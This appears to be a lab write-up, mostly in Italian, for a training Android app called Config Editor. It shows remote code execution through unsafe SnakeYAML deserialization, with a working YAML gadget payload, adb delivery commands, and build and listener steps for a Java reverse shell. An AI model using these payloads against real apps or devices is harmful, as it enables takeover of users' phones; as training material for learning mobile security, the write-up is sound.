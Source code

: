 # Config Editor

Achieve Remote Code Execution via a Config Editor app in Android by exploiting vulnerabilities in a third party library.

## Table of Contents

1. [Look Around](#look-around)
2. [Static Analysis](#static-analysis)
3. [Dynamic Analysis](#dynamic-analysis)
4. [Exploiting](#exploiting)
5. [Shell is the way](#shell-is-the-way)
6. [And now?](#and-now)
7. [Utils](#utils)
8. [References](#references)

## Look Around

L'applicazione viene utilizzata per leggere file con estensione `.yaml`

## Static Analysis

Considerazioni sul file `AndroidManifest.xml`

### Permissions

+ `READ_EXTERNAL_STORAGE`, `WRITE_EXTERNAL_STORAGE`, `MANAGE_EXTERNAL_STORAGE` , permessi per permettere all'applicazione di potere salvare, leggere e scrivere file sulla memoria esterna `sdcard`
+ `INTERNET` , utilizzata per accedere ad Internet

```xml
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

### Implicitly Exported Component

An implicitly exported component could allow access to the component Activity, MainActivity.
In questo caso, l'applicazione gestirà i link con scheme `file://`, `http://` e `https://` e file con estensione  `.yaml`

```xml
       <activity android:name="com.mobilehackinglab.configeditor.MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="file"/>
                <data android:scheme="http"/>
                <data android:scheme="https"/>
                <data android:mimeType="application/yaml"/>
            </intent-filter>
        </activity>
```

### MainActivity & yaml.load

`loadYaml` funzione interessante al suo interno: `Object deserializedData = yaml.load(inputStream);`
Vediamo, attraverso gli `import` nell'app e nelle subdirectory presenti `/org/yaml/snakeyaml` che il metodo `load`
proviene da SnakeYAML.
Da documentazione: `SnakeYAML is a YAML 1.1 processor for the Java Virtual Machine version 8+.`
Cercando su internet per SnakeYAML e Deserialization notiamo che [CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)

```txt
SnakeYaml's Constructor() class does not restrict types which can be instantiated during deserialization. Deserializing yaml content provided by an attacker can lead to remote code execution. We recommend using SnakeYaml's SafeConsturctor when parsing untrusted content to restrict deserialization. We recommend upgrading to version 2.0 and beyond.
```

Non sono stato in grado di trovare la versione esatta di SnakeYAML ma cercando per SnakeYaml's `SafeConsturctor` in `/org/yaml/snakeyaml` non troviamo occorrenze quindi ho presupposto fosse una buona strada da perseguire.

## Dynamic Analysis

Sanity check:

1. Crea un file `yaml`
2. Metti in ascolto un listener python sulla porta 8080
3. Simula una connessione http con un file yaml con adb
L'applicazione dovrebbe aprirsi e tenterà di leggere il file (se vuoto, l'output sarà vuoto)

Commands:

```sh
$linux> touch example.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/example.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
```

## Exploiting

Adattamento SnakeYAML per la nostra App Android.

Nel path `/com/mobilehackinglab/configeditor/LegacyCommandUtil.java`
che ci può permettere tramite deserializzazione di richiamare LegacyCommandUtil ed eseguire comandi di sistema.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

Creiamo file `yaml`

```yaml
pwn: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "/bin/touch /data/data/com.mobilehackinglab.configeditor/pwn.txt" ]
```

Testiamo questa RCE

```sh
$linux> touch pwn.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/pwn.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
$linux> adb shell ls /data/data/com.mobilehackinglab.configeditor
output: pwn.txt # in listing file
```

<p align="center">
<img src="assets/pwn.png" width="500"/>
</p>

## Shell is the way

Creare reverse shell in Java

```sh
javac --release 17 AndroidReverseShell.java
mkdir classes
/Users/dipa/Library/Android/sdk/build-tools/33.0.2/d8 AndroidReverseShell.class --intermediate --file-per-class --output classes
mv classes/AndroidReverseShell.dex classes/classes.dex
zip classes/reverse.jar classes/classes.dex
# manual way, skip this, use only for testing
adb push reverse.jar /data/data/com.mobilehackinglab.configeditor/
/system/bin/dalvikvm -cp /data/data/com.mobilehackinglab.configeditor/reverse.jar AndroidReverseShell
```

```sh
python3 -m http.server 8081 # shell.yaml and reverse.jar in this folder
ncat -lnvp 1337 # listener for reverse shell
adb shell am start -a android.intent.action.VIEW -d  "http://192.168.1.26:8081/shell.yaml" -n com.mobilehackinglab.configeditor/.MainActivity # emulate browser interaction
```

## And now?

RCE / ACE su utente Android non ci dà molti privilegi e non possiamo muoverci liberamente nel file system. Quali sono i passi successivi?

### Android Kernel Privesc & SandBox Escape

+ Android Kernel Privesc, Sandbox Escape, etc

## Utils

+ SemGrep Rules

## References

+ [android-command-line-reverse-shell](https://malacupa.com/2018/10/25/android-command-line-reverse-shell)
